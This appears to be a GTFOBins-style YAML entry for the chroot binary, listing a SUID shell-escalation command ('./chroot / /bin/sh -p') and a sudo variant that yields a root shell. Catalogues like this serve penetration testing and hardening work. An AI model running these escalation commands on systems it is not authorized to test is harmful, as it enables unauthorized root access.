   suid:
    - code: |
        ./chroot / /bin/sh -p
  sudo:
    - code: |
        sudo chroot /
---
